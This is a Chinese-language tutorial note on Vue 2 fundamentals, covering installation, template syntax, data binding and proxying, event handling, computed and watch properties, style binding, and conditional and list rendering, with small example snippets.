

[toc]

#  1 Vue 基础

## 1.1 介绍 Vue

Vue 是一个渐进式的框架

**特点：**

1. 采取<strong style="color:red">组件化</strong>模式，提高代码复用率、且让代码更好维护

   

2.  <strong style="color:red">声明式</strong>编码，让编码人员无需直接操作 DOM ，提高开发效率

   

3. 采用<strong style="color:red">虚拟 DOM + 优秀的 Diff 算法</strong>，尽量复用 DOM 节点

   

## 1.2 Vue 的安装

安装方法：

1. CDN 引入

   ```vue
   <!-- 开发环境版本，包含了有帮助的命令行警告 -->
   <script src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>
   
   <!-- 生产环境版本，优化了尺寸和速度 -->
   <script src="https://cdn.jsdelivr.net/npm/vue@2"></script>
   ```

2. 下载和引入

   - 开发版本：[传送入口](https://v2.cn.vuejs.org/js/vue.js)

   - 生产版本：[传送入口](https://v2.cn.vuejs.org/js/vue.min.js)

3. npm 安装

   - 后续通过 webpack 和 CLI（命令行界面，command-line interface），我们使用该方式

我们在安装完 vue 框架之后，浏览器会显示以下提示信息：


- 第一条提示信息就是浏览器提示我们<u>要下载一个 Vue 开发工具扩展以获取更好的开发体验</u>
- 第二条提示信息就是浏览器提示我们<u>正在使用的是开发模式，确保在生产模式下，使用生产模式</u>

解决方法：

1. 第一个就直接通过下载 Chrome 插件：<u>Vue.js.devtools</u> 即可（<font color="red">该工具需要在开发模式下才可以正常使用，生产模式下无法使用，并且需要使用 live server 这个插件打开</font>）

   

2. 第二个我们目前处于学习阶段，不需要更换为生产版本，但是想要关闭这个提示信息就需要到 Vue 官网的 API 文档介绍中去查找相关配置，[传送入口](https://v2.cn.vuejs.org/v2/api/#%E5%85%A8%E5%B1%80%E9%85%8D%E7%BD%AE)

   - 我们首先在调试工具中输入`Vue.config`来测试：

     

   - 手动在代码中添加`Vue.config.productionTip = false;` 即可

## 1.3 Hello 小案例

我们首先配置页签图标：

当我们按住 Ctrl + F5 或者 Shift + F5 来强制刷新浏览器页面之后，就会显示下面的错误警告：


说我们没有在本地 5500 的端口号的工程文件下找到 favicon.ico 这个页签图标文件，这时候，我们可以直接找张 logo 放入工程文件的根目录下即可，注意：<font color="red">logo 一定要是 ico 格式的文件，并且文件名必须是 favicon （中文名：网站图标）</font>

接下来，我们来完成 Hello 的案例：

```js
<!-- 准备好容器 -->
<div id="root">
    <h1>Hello {{name}}</h1>
</div>
<script>
    // 创建 Vue 实例
    new Vue({
        el: '#root',    // el 用于指定当前 Vue 实例为那个容器服务
        data: {         // data 用于存储数据，以供 el 指定的容器使用
            name: 'Vue'
        }
    })
</script>
```

:herb:总结：

1. 想让 Vue 工作，就必须先创建一个 Vue 实例，且要传入一个配置对象
2. root 容器里的代码被称为 ==Vue 模板==

## 1.3 Hello 案例分析

```vue
// demo1
<!-- 准备好容器 -->
<div class="root">
    <h1>Hello {{name}}</h1>
</div>
<div class="root">
    <h1>Hello {{name}}</h1>
</div>
<script>
    // 清除开发模式提示信息
    Vue.config.productionTip = false;
    // 创建 Vue 实例
    new Vue({
        el: '.root',    // el 用于指定当前 Vue 实例为那个容器服务
        data: {         // data 用于存储数据，疏浚共 el 指定的容器使用
            name: 'Vue'
        }
    })
</script>
```

执行结果如下：


```js
<!-- 准备好容器 -->
<div id="root">
    <h1>Hello {{name, address}}</h1>
</div>
<script>
    // 清除开发模式提示信息
    Vue.config.productionTip = false;
    // 创建 Vue 实例
    new Vue({
        el: '#root',    // el 用于指定当前 Vue 实例为哪个容器服务
        data: {         // data 用于存储数据，以供 el 指定的容器使用
            name: 'Vue'
        }
    })
    // 指定两个 Vue 实例指向同一个容器
    new Vue({
        el: '#root',    // el 用于指定当前 Vue 实例为那个容器服务
        data: {         // data 用于存储数据，以供 el 指定的容器使用
            address: 'beijing'
        }
    })
</script>
```

执行结果如下：


我们可以看到当我们为容器同时绑定两个 Vue 实例时，默认使用前面的 Vue 实例，后面的则无法生效

我们总结一下：

1. <font color="red">Vue 中实例和容器是一一对应的</font>
2. 真实开发中只有一个  Vue 实例，<font color="red">并且会搭配组件一起使用</font>
3. `{{xxx}}`的槽中需要写 JS 表达式，且这个表达式可以自动读取到 data 中的所有属性
4. 一旦 data 中的数据发生改变，那么页面中用到该数据的地方也会自动更新


## 1.4 模板语法

HTML 中包含了一些 JS 语法代码，语法分为两种，分别为：

1. 插值语法（双花括号表达式）
   - 用于解析标签体内容
   - 可以直接读取到 data 中所有的属性值
2. 指令（以 v- 开头）
   - 用于解析标签（包括：标签属性、标签体内容、绑定事件，…）
   - 例如：`v-bind:href="xxx"` 或者简写为 `:href="xxx"`

**demo**

```vue
<!-- 准备好容器 -->
<div id="root">
    <h1>Hello {{name, address}}</h1>
    <!-- 方式1 -->
    <a v-bind:href="url">百度</a>
    <!-- 方式2 -->
    <a :href="url">百度</a>
    <a :href="school.url">学校</a>
</div>
<script>
    // 清除开发模式提示信息
    Vue.config.productionTip = false;
    // 创建 Vue 实例
    new Vue({
        el: '#root',    
        data: {        
            name: 'Vue',
            url: 'http://www.baidu.com',
            school: {
                url: 'https://www.jxnu.edu.cn/'
            }
        }
    })
</script>
```

效果图如下：


## 1.5 数据绑定

数据绑定分为两种，即：

1. 双向绑定（`v-model`）：在页面中，数据不仅能从 data 流向页面，还可以从页面流向 data
2. 单向绑定（`v-bind`）：数据只能从 data 流向页面

```vue
<div id="root">
    单向数据绑定:<input type="text" v-bind:value="name"><br>
    双向数据绑定:<input type="text" v-model:value="name">
</div>

<script>
    Vue.config.productionTip = false;
    new Vue({
        el: '#root',
        data: {
            name:'尚硅谷'
        }   
    })
</script>
```

:spiral_notepad:备注：

- 双向绑定一般都应用在表单元素上（如：input、select 等），所以`v-model: value` 可以简写为 `v-model`，因为 `v-model` 默认收集的就是 `value` 的值


## 1.6 el 和 data 两种写法

在探究之前，我们首先对 Vue 的代码片段进行配置，做法如下：

1. 打开 VS code，找到<u>文件 → 首选项 → 配置用户代码片段</u>

2. 新建全局代码片段

   

3. 添加如下代码

   ```json
   "Print to console": {
   	"prefix": "v1",
   	"body": [
   		"new Vue({",
   		"  el:'#root',",
   		"  data:{",
   		"    ",
   		"  }",
   		"})"
   	],
   	"description": "Create vue template"
   }
   ```

4. 下次使用的时候，直接 v1 + tab 即可快速生成

> - prefix 内写快捷输入的指令
> - body 内写入快捷输入的内容
> - description 写关于该指令的描述
>
> 由于自己手写 body 过于繁琐，所以我们可以通过配置用户代码片段生成网站来进行设置，[网址传送门](https://snippet-generator.app/)

---

配置完成之后，我们需要进行探讨

我们挂载容器，处理可以在 Vue 实例中配置 el，还有第二种写法，如下：（Vue 实例中有一个继承过来的挂载方法，即 ==$mount==）

```js
const v = new Vue({
//   el:'#root',
    data:{
    name:'尚硅谷'
    }
});
v.$mount('#root');
```

data 的第二种写法：<font color="red">函数式</font>

```js
const v = new Vue({
    //   el:'#root',
    data() {
        return {
            name: '尚硅谷'
        }
    }
})
```

:spiral_notepad:总结：

1. el 有两种写法：
   - new Vue 的时候配置 el 属性
   - 先创建 Vue 实例，再通过 `$mount` 挂载
2. data 也有两种写法：
   - 对象式
   - 函数式（不要使用箭头函数，和组件搭配使用时只能用函数式）

## 1.7 MVVM 模型

1. M：模型 Model，对应 data 中的数据
2. V：视图 View，模板
3. VM：视图模型 ViewModel，Vue 实例对象


VM 身上的所有属性及其 `__proto__ ` 上的属性，在 Vue 模板中都可以直接使用


## 1.8 Object.defineProperty

如下图，我们通过 defineProperty 这个方法添加的属性在 Chrome 调试工具中，显示的是浅紫色：


这意味着：<u>这个属性是不可枚举的</u>

```js
Vue.config.productionTip  = false;
let person = {
    name: 'zs',
    age: 18
}
Object.defineProperty(person, 'sex', {
    value: 'male'
})
console.log(Object.keys(person));   // keys 方法将可遍历的属性拿出来放到一个数组里面
console.log(person);
```

执行结果如下：


在 defineProperty 的第三个参数也叫做配置项，里面出了 value 属性之外，还有其他三个属性：enumerable、writable、configurable

我们利用 defineProperty 可以实现数据的动态更新

```js
Vue.config.productionTip  = false;
let number = 19;
let person = {
    name: 'zs',
    sex: 'male'
}
Object.defineProperty(person, 'age', {
    get() {
        return number;      // 当我们更改了 number 的值后, age 的值也会随之发生改变
    },
    set(value) {
        number = value; 
    } 
})
```

- get 方法：当有人==读取==了 person 的 age 属性时，get 函数（getter）就会被调用，且返回值就是 age 的值
- set 方法：  当有人==修改==了 person 的 age 属性时， set 函数（setter）就会被调用，将 age 的值修改为更改的 value 值


## 1.9 数据代理

数据代理：<font color="red">通过一个对象代理对另一对象中属性进行操作（包括读 / 写）</font>

```js
let obj1 = {x: 100};
let obj2 = {y: 200};

Object.defineProperty(obj2, 'x', {
    get() {
        return obj1.x;
    },
    set(value) {
        obj1.x = value;
    }
})
```

我们利用数据代理，使得我们可以通过 obj2 对 obj1 中的属性进行操作


## 1.10 Vue 里面的数据代理

```vue
<div id="root">
    <h2>学校名称：{{name}}</h2>
    <h2>学校地址：{{address}}</h2>
</div>
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            name: '尚硅谷',
            address: '宏福科技园'
        }
    })
</script>
```

:heavy_exclamation_mark:注意：

1. vm 里面的 data ，如果我们需要获取则要使用 `vm._data`，而不能通过 `vm.data` 来获取
2. 但是因为有了数据代理，Vue 将 _data 中的数据在 Vue 实例中也放置了一份，所以我们直接通过 `{{name}}` 来放置数据在视图中，而不用写 `{{_data.name}}`


:spiral_notepad:总结：

1. Vue 中的数据代理：通过 vm 对象来代理 data 对象中属性的操作
2. Vue 中数据代理的好处：更加方便地操作 data 中的数据
3. 基本原理：
   - 通过 `Object.defineProperty()`把 data  对象中所有的属性都添加到 vm 上
   - 为每一个添加到 vm 上的属性，都指定一个 getter / setter 
   - 在 getter / setter 内部去操作（读或写） data 中的属性


## 1.11 Vue 的命名规范

这里插入一小节，为了避免以后运行在服务器时，出现各种各样的错误，这里需要对变量、组件名、函数、配置项等做出命名规范：

1. 项目名：采用 <u>kebab-case</u> 命名规范，全部用小写字母的形式，多个单词之间以<u>短横线</u>分隔
2. 目录名：采用 <u>Snake</u> 命名规范，全部用小写字母，多个单词之间使用<u>下划线</u>分隔，有复数形式时，采用复数命名的方法
3. HTML、图像 文件：Snake
4. CSS 、JS 文件：kebab-case
5. Vue 组件：UpperCamelCase
6. 函数、方法：lowerCammelCase

:warning:<strong style="color:red">无论是组件的命名还是其他文件的命名，都不应该使用 HTML 已有的标签或是 JS 的关键字、保留字进行命名，例如：id、delete、with 等等</strong>

**Vue 中方法的书写顺序**

```
- components
- props
- data
- created
- mounted
- activited
- update
- beforeRouteUpdate
- metods
- filter
- computed
- watch
```


# 2 Vue 中的事件

## 2.1 事件处理

在 Vue 实例中，有一个属性 methods 专门用来存储事件方法

```vue
<div id="root">
    <button v-on:click = "showInfo">点击我，弹出提示信息</button>
    <!-- 这里的 v-on:click 我们可以简写为 @click -->
</div>

<script>
    Vue.config.productionTip = false;
    new Vue({
        el:'#root',
        data:{
        
        }, 
        methods: {
        showInfo() {
            alert('同学您好')
        }
        }
    })
</script>
```

当我们一点击按钮，就会弹出对话框，当然这里的 showInfo 方法中，我们也可以加 event 参数，和 JS 语法中一样

**带参数的方法**

```vue
<div id="root">
    <button v-on:click = "showInfo($event, 666)">点击我，弹出提示信息</button>
</div>

<script>
    Vue.config.productionTip = false;
    new Vue({
        el:'#root',
        data:{
        
        }, 
        methods: {
            showInfo(event, number) {
                alert('同学您好' + number);
                console.log(event);
            }
        }
    })
</script>
```

:small_red_triangle:注意：

1. 如果我们想同时传入 event 事件和自定义参数，那么需要在模板中的事件上<font color="red">添加 $event 来帮助 event 事件参数进行占位</font>
2. <strong style="color:red">事件的回调需要配置在 methods 对象中，最终会绑定在 vm 上</strong>（虽然也可以直接配置在 data 对象中，但是不推荐）
3. methods 中配置的函数，不要使用箭头函数，否则 this 指向的就不是 vm （或组件实例对象）了，而是到上一级的上下文环境查找对象
4. `@click = "demo"` 和 `@click = "demo($event)"` 效果一致，后者只是多传入了一个 event 的对象


## 2.2 事件修饰符

Vue 中的事件修饰符（常见）：

1. prevent：阻止默认事件
2. stop：阻止事件冒泡（放在子级元素身上）
3. once：事件只触发一次
4. capture：使用事件的捕获模式（放在父级元素身上）
5. self：只有 event.target 是当前操作的元素才触发事件
6. passive：事件的默认行为立即执行，无需等待事件回调执行完毕
   - 这里尚硅谷的老师使用 sroll 和 wheel 事件做了演示，但是这个事件修饰符并不常用
     - sroll 是滚动条的事件，而 wheel 是滚轮的事件

```css
<!-- css 样式 -->
<style>
    #root>div {
        width: 500px;
        height: 50px;
        margin: 20px auto;
        background-color: pink;
    }
</style>
```

```vue
<div id="root">
    <!-- 阻止默认事件：.prevent 相当于 e.preventDefualt -->
    <div>
        <a href="http://www.baidu.com" @click.prevent ="showInfo" class="box1">百度</a>
    </div>
    <!-- 阻止事件冒泡，.stop 相当于 e.stopPropagation -->
    <div @click = "showInfo">
        <button @click.stop = "showInfo">点击</button>
    </div>
    <!-- 事件只触发一次 -->
    <div>
        <button @click.once = "showInfo">点击</button>
    </div>
    <!-- 将默认事件修改为捕获事件，当我们点击 button 之后，首先执行 showInfo 之后再执行 showMsg -->
    <div @click.capture = "showInfo">
        <button @click = "showMsg">点击</button>
    </div>
    <!-- self 只有触发的当前的的元素时，即 e.target 为当前元素才触发事件 -->
    <!-- 在这里表现为当我们点击 button 之后只会执行 showMsg ,而不会执行 showInfo -->
    <div @click.self = "showInfo">
        <button @click.stop = "showMsg">点击</button>
    </div>
</div>
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            name: '张三',

        },
        methods: {
            showInfo(e) {
                // e.preventDefault();
                alert('Vue 很有趣！！')
            },
            showMsg(e) {
                alert('所以，同学快来学 Vue')
            }
        }
    })
</script>
```

> 具体效果需要自己去执行和观察


## 2.3 键盘事件

Vue 中给常用的按钮起了别名：

1. 回车   =>	enter
2. 删除   =>    delete(捕获 "删除" 和 "退格")
3. 退出   =>	esc
4. 换行   =>	tab
5. 上       =>	up
6. 下       =>	down
7. 左       =>	left
8. 右       =>	right

> 这里的 tab 键比较特殊，因为 tab 的主要作用就是用来切换焦点的，所以当我们搭配 keyup 时，按钮会失效，只能搭配 keydown 进行触发

```vue
<!-- demo -->
<div id="root">
    <input type="text" placeholder="按下回车触发事件" @keyup.enter = "showInfo">
</div>
<script>
    // 定义别名按键
    // Vue.config.keyCodes.huiche = 13;
    const vm = new Vue({
        el:'#root',
        methods: {
            showInfo(e) {
                // console.log(e.key,e.keyCode)
                // if(e.keyCode == 13) {
                    console.log(e.target.value);
                // }
            }
        }
    })
</script>
```

> :small_red_triangle:注意：键盘上的每一个按键其实都有自己的名称和编码，例如 回车键{ 名称：Enter; 编码： 13}

键盘事件的其他定义方式：

1. Vue 未提供别名的按键，可以使用按钮原始的 key 值去绑定，但是注意要转化为 kebab-case(短横线命名)，例如回车键，我们可以使用 Enter，大小写切换键 CapsLock 可以使用 capS-lock 

2. 系统修饰符（用法特殊）：ctrl、alt、shift、meta(即 windows 系统中的徽标键，mac 系统中的 command 键)

   - 配合 keyup 使用：按下修饰符的同时，再按下其他键，随后释放其他键，事件才能触发
   - 配合 keydown 使用：正常触发事件

3. 也可以使用 keycode 来指定具体的按钮（不推荐）

4. Vue.config.keyCodes.自定义键名 = 键码（同样因为使用到 keycode ，不推荐）

   


## 2.4 事件总结

- 事件可以采用链式编程原理，即如果我们既需要阻止冒泡事件，又需要阻止默认事件，可以使用`.prevent.stop`
- 系统修饰符可以使用组合按键，例如：想要同时同时按下 Ctrl + Y 触发事件，可以使用 `.ctrl.y`


## 2.5 姓名案例

这里我们使用 methods 来实现姓名案例：

```vue
<div id="root">
    姓：<input type="text" v-model="lastName"><br>
    名：<input type="text" v-model="firstName"><br>
    姓名：<span>{{fullName()}}</span>
</div>
<script>
    Vue.config.productionTip = false;
    new Vue({
        el: '#root',
        data: {
            lastName: '张',
            firstName: '三'
        },
        methods: {
            fullName() {
                return this.lastName + '-' + this.firstName;
            }
        }
    })
</script>
```

效果图如下：


> 注意：每当 data 中的数据发生变化，Vue 会重新解析模板


## 2.6 计算属性

Vue 中在 **computed** 内的属性被称为计算属性

```vue
<div id="root">
    姓：<input type="text" v-model="lastName"><br>
    名：<input type="text" v-model="firstName"><br>
    姓名：<span>{{fullName}}</span>
</div>
<script>
    Vue.config.productionTip = false;
    const vm = new Vue({
        el: '#root',
        data: {
            lastName: '张',
            firstName: '三'
        },
        computed: {
            fullName: {
                get() {
                    return this.lastName + '-' + this.firstName;
                },
                set(value) {
                    const arr = value.split('-');
                    this.lastName = arr[0];
                    this.firstName = arr[1];
                }
            }
        }
    })
</script>
```

效果图如下：


---

:bell:计算属性

- 定义：动态的、要通过已有的属性进行计算而得来的属性

- 原理：底层借助了 Object.defineproperty 方法提供的 getter  和 setter
- get 函数执行的时机：
  1. 初次读取的时候会执行一次
  2. 当依赖的数据发生改变时会被再次调用
- 优势：与 methods 实现相比较，内部存在缓存机制（复用），效率更高，调用更加方便
- 备注：
  - 计算属性最终会落到 vm 上，直接读取使用即可
  - 如果计算属性要修改，必须写到 set 函数去响应修改，且 set 中要引起计算时依赖的数据改变

**计算属性简写**

我们如果省略了 set 方法，那么可以将原来的 get 方法简写为：

```js
fullName(){
	return this.lastName + '-' + this.firstName;
}
```

这个计算属性直接写成"方法"，并且表示的就是 get 方法

> 当然，这样写表示将 get 方法绑定到 fullName 属性上，而不是 fullName 就是一个方法，其本质上还只是一个计算属性


## 2.7 侦听属性

Vue 中写在 **watch** 内的属性即为侦听属性

侦听属性的特点

1. 当侦听的属性发生变化时，回调函数自动调用，进行相关操作
2. <font color="red">侦听的属性必须存在，才能进行侦听</font>
3. 侦听属性的两种写法：
   - new Vue（即 Vue 实例）中传入 watch 配置
   - 在 Vue 实例外，通过 vm.$watch 来进行配置
4. 在侦听属性内部可以通过添加参数 immediate 来表示是否要在初始化时调用一次 handler

**demo**

```vue
<div id="root">
    <h2>今天天气很{{info}}</h2>
    <button @click="changeWeather">切换天气</button>
</div>
<script>    
    const vm = new Vue({
        el: '#root',
        data: {
            ishot: true,
        },
        methods: {
            changeWeather() {
                this.ishot = !this.ishot;
            }             
        },
        computed: {
            info(){
                return this.ishot ? '凉爽' : '炎热';
            }  
        }, 
        watch: {
            ishot: {
                immediate: true,        //初始化时让handler调用一下
                handler(newValue, oldValue) {
                    console.log('ishot change!');
                    console.log(newValue, oldValue);
                }
            }
        }
    })
</script>
```

效果图如下：


其中的 ishot 侦听属性，我们也可以改为如下写法：

```js
vm.$watch('ishot', {
    immediate: true,        // 初始化时让handler调用一下
    handler(newValue, oldValue) {
            console.log('ishot change!');
            console.log(newValue, oldValue);
        }
    }
)
```

这种写法适合于一开始并<u>不清楚自己要侦听的属性（包括了计算属性）</u>

### 2.7.1 深度侦听

如果侦听的属性内部还有其他属性，那么我们如果想要继续侦听内部的属性就需要用到参数 **deep**，将其设置为 true

```vue
<div id="root">
    <h1>a 的值为{{numbers.a}}</h1>
    <button @click="numbers.a++">点击 a 的值发生改变</button>
    <h2>b 的值为{{numbers.b}}</h2>
    <button @click="numbers.b++">点击 b 的值发生改变</button>
</div>
<script>
    const vm = new Vue({
        el:'#root',
        data:{
            numbers:{
                a: 1,
                b: 10
            }
        },
        watch:{
            // 只想侦听 number 里面的 a,注意在属性外面用引号包裹
            'numbers.a':{
                handler() {
                    console.log('a 的值发生改变');
                }
            },
            // 如果想要侦听 number 整体，需要使用 deep 参数
            numbers:{
                deep: true, // 深度侦听
                handler() {
                    console.log('number 里面发生改变');
                }
            }
        }
    })
</script>
```

效果图如下：


:pencil:**总结：**

1. Vue 中的 watch 默认不监测对象内部值的改变
2. 如果想要让 Vue 中的 watch 可以监测到对象内部值的改变，需要设置`deep: true`

> 注意：Vue 自身可以监测到对象内部值的改变，但是 Vue 提供的 watch 默认是监测不到的


### 2.7.2 侦听的简写形式

当我们不需要为侦听属性添加诸如immediate、deep 等参数，并且内部只有一个 handler 处理程序时，我们可以像计算属性的简写形式类似，代码如下：

```js
numbers(newValue, oldValue) {
    console.log('numbers 的值被修改了', newValue, oldValue);
}
```

等效于：

```js
numbers: {
    handler(newValue, oldValue) {
        console.log('numbers 的值被修改了', newValue, oldValue);
    }
}
```

我们也可以使用 `vm.$watch` 的形式:

```js
vm.$watch('numbers',function(newValue, oldValue) {
    console.log('numbers 的值被修改了', newValue, oldValue);
})
```


### 2.7.3 侦听属性和计算属性的对比

1. computed 能完成的功能，watch 都能完成，反过来，watch 能完成的事情，computed 不一定就能完成
   - computed 所包含的计算属性的值通过 return 返回，就==无法执行异步任务==，例如设置一个定时器 setTimeout，而 watch 就可以进行异步任务
2. 重要提醒：
   - 被 Vue 管理的函数，最好写成普通函数，这样 this 的指向才会是 vm 或组件实例对象
   - 不被 Vue 管理的函数（定时器的回调函数，ajax 的回调函数等），最好写成箭头函数，这样 this 的指向才会是 vm 或组件实例对象

# 3 绑定样式与渲染

## 3.1 绑定 class样式

```html
<!-- 固定样式使用 class,不固定样式使用 v-bind 追加元素 -->
<div class="test" :class="bgc"></div>
```

```js
const vm = new Vue({
    el:'#root',
    data:{
        bgc: 'red'		// 通过为 bgc 添加值来实现追加
    }
})
```

**变式1：创建点击按钮，可以随机切换样式**

```html
<div class="test" :class="bgc"></div>
<button @click="changeColor">点击我改变背景颜色</button>
```

```js
const vm = new Vue({
    el:'#root',
    data:{
        bgc: 'red'
    },
    methods:{
        changeColor() {
            const color = ['red', 'green', 'blue'];
            let index = Math.floor(Math.random()*3);
            this.bgc = color[index];
            console.log(color[index]);
        }
    }
})
```

效果图如下 ：


**变式2：绑定 class 样式的对象写法，可以用来指定哪些样式显示和不显示**

```js
data:{
    form: {
        addHeight: true,
        addWidth: true
    }
}
```

**变式3：绑定 class 样式的数组写法，可以叠加多个样式**

```js
data:{
    classArr: ['style1', 'style2']
}
```

:pencil:总结：

1. 字符串写法，适用于：<u>样式的类名不确定，需要动态指定</u>
2. 数组写法，适用于：<u>需要叠加多个样式属性</u>
3. 对象写法，适用于：<u>要绑定的元素个数确定，但是需要动态指定需要不需要使用</u>

## 3.2 绑定 style 样式

**写法一**

```html
<div class="test" :style="{fontSize:fsize + 'px'}">Alice</div>
```

```js
data:{
    fsize: 40
}
```

**写法二**

```html
<div class="test" :style="styleObj">Alice</div>
```

```js
data:{
    styleObj: {
        fontSize: '40px'
    }
}
```

**写法三**

可以直接在 style 中使用数组，数组里面存放若干个对象

## 3.3 条件渲染

`v-show` 指令用来进行渲染页面元素的==显示与隐藏==，效果类似于 `display:none;` 和 `display:block;`

```js
v-show:true			// 等效于display:block
```

```js
v-show:false		// 等效于display:none
```

`v-if`指令用来渲染页面元素的==存在与消失==

```js
v-if:true			
```

```js
v-if:false			// 会将页面的元素节点直接删除
```

> v-if 和 v-show 在显示的效果上表现是相同的，但是两者也是有细微的差别的，如果我们的显示和隐藏交互很频繁，那么推荐使用 v-show，因为 v-show 并不会进行删除节点和添加节点的操作，效率相对更高

除此之外，还有`v-else-if`和指令搭配`v-else`指令，它们是用来搭配`v-if`指令的，和条件判断的 if-else 语句的效果一致，<strong style="color:red">我们使用这些语句时，中间不能够被打断</strong>

:sparkles:`v-if`的妙用

`v-if`可以搭配 template 一起使用，使得多个标签使用同一渲染

```html
// demo
<template v-if="1 > 3">
    <h1>早上好</h1>
    <h1>中午好</h1>
    <h1>下午好</h1>
</template>
<h1>晚上好</h1>
```

效果图如下：


## 3.4 列表渲染

在列表渲染中，我们可以使用 `v-for` 指令来对列表进行渲染，具体语法如下：

```js
v-for = "(item, index) in xxx" :key="yyy"
```

> `v-for`可遍历的包括了数组、对象、字符串（较少），指定次数（较少）

**遍历数组**

```html
<ul>
    <li v-for="(value, key) in persons" :key="key">
        {{value.name}} - {{value.age}} - {{key}}
    </li>
</ul>
```

```js
persons:[
    {id:'001', name:'张三','age':18},
    {id:'002', name:'李四','age':19},
    {id:'002', name:'李四','age':19}
]
```

效果如下：


**遍历对象**

```html
<ul>
    <li v-for="(value, key) in cars" :key="key">
        {{value}} - {{key}}
    </li>
</ul>
```

```js
cars:{
    name:'奥迪',
    color:'white',
    price:'7000000'
}
```

效果如下：


**遍历字符串**

```html
<ul>
    <li v-for="(value, key) in str" :key="key">
        {{value}} - {{key}}
    </li>
</ul>
```

```js
str: "Hello"
```

效果如下：


**遍历次数**

```js
<ul>
    <li v-for="(value, key) in 4" :key="key">
        {{value}} - {{key}}
    </li>
</ul>
```

效果图如下：


遍历数字，前面是计数器（从 1 开始），后面是索引（从 0 开始）

> 注意：这里与 JS 的语法基本类似，我们除了可以使用 for…in，也可以使用 for…of，效果相同


### 3.4.1 key 作用与原理

我们首先准备好测试所需数据

```vue
<!-- index 作为 key ，以示标识-->
<div id="root">
    <ul>
        <li v-for="(p, index) in persons" :key="index">
            {{p.name}} - {{p.age}}
            <input type="text">
        </li>
    </ul>
    <button @click.once="add">添加数组元素</button>
</div>
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            persons: [
                { id: '001', name: '张三', age: 18 },
                { id: '002', name: '李四', age: 19 },
                { id: '003', name: '王五', age: 20 }
            ]
        },
        methods:{
            add() {
                const p = {id: '004', name: '刘六', age: 20};
                this.persons.unshift(p);
            }
        }
    })
</script>
```

效果图如下：


我们在其输入框中填入对应内容：


添加数组元素之后，效果图如下：


这时候，我们会惊讶得发现，数据发生错位，原理如下：


```
	从上图，我们可以很清晰地了解产生这种错位的原因，首先 Vue 会根据初始数据生成一个虚拟 DOM ，这个虚拟 DOM 会自动设置好 key 值（也就是索引号），当我们修改数据后， Vue 又会根据新数据生成一个虚拟 DOM ，这个新的虚拟 DOM 会与旧的虚拟 DOM 进行对比，根据 key 值相同的数据项进行逐个对比，不同的数据会产生覆盖，如上图的 【老刘-30】就会替换到原来的【张三-18】，但是 input 元素节点相同（忽略里面的文本）， 就直接保留原来的 input 元素节点，同时里面残存的文本不会发生改变，其他的依次按这种方式比较，碰到 key=3 时就直接加入，不必进行判断，所以就会形成错位，同时这种写法还存在一个严重的问题：效率低下（不能直接沿用之前的元素）
```

如果我们使用 `p.id` 作为唯一标识时，则不存在上图出现的这个问题，原理图如下：


:pencil:总结：

1. 虚拟 DOM 中 key 的作用：

   - key 是虚拟 DOM 对象的标识，当数据发生改变时，Vue 会根据【新数据】生成【新的虚拟 DOM】
   - 随后 Vue 会对【新虚拟 DOM】和【旧虚拟 DOM】进行差异比较
2. 比较规则如下：

   - 旧虚拟 DOM 中找到了与新虚拟 DOM 相同的 key:
     - 若虚拟 DOM 中内容没变，直接使用之前的真实 DOM
     - 若虚拟 DOM 中内容改变，则生成新的真实 DOM，替换掉原来页面中真实的 DOM
3. 用 index 作为 key 可能引发的问题：

   - 若对数据进行<strong style="color:red">逆序添加、逆序删除</strong>等破坏顺序操作时，会产生没有必要的 DOM 更新   ==>   界面效果没问题，但效率低
   - 若结构中还包含了输入类 DOM   ==>    产生错误的 DOM 更新，界面出现问题

4. 开发中如何选择 key？
   - 最好使用每条数据的唯一标识（即主属性）作为key

### 3.4.2 列表过滤

```vue
<div id="root">
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入查找关键字" v-model="keywords">
    <ul>
        <li v-for="(p,index) in filpersons" :key="index">
            {{p.name}} - {{p.age}} - {{p.sex}}
        </li>
    </ul>
</div>
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            keywords: '',
            persons: [
                { id: '001', name: '马冬梅', age: 19, sex: '女' },
                { id: '002', name: '周冬雨', age: 20, sex: '女' },
                { id: '003', name: '周杰伦', age: 21, sex: '男' },
                { id: '004', name: '温兆伦', age: 22, sex: '男' }
            ],
            filpersons:[]
        },
        watch:{
            keywords:{
                // 这里存在一个小技巧就是任何字符串都包含空字符，为了使得过滤数组前能够将所有的数据显示在页面中我们需要添加参数 immediate
                immediate:true,   
                handler(val) {
                    this.filpersons = this.persons.filter((p) => {
                        return p.name.indexOf(val) != -1;
                    })
                }
            }
        }
    })
</script>
```

效果图如下：


当然，我们也可以使用 计算属性 来完成这一效果：

```js
computed:{
    filpersons() {
        return this.persons.filter((p) => {
            return p.name.indexOf(this.keywords) != -1;
        })
    }
}
```

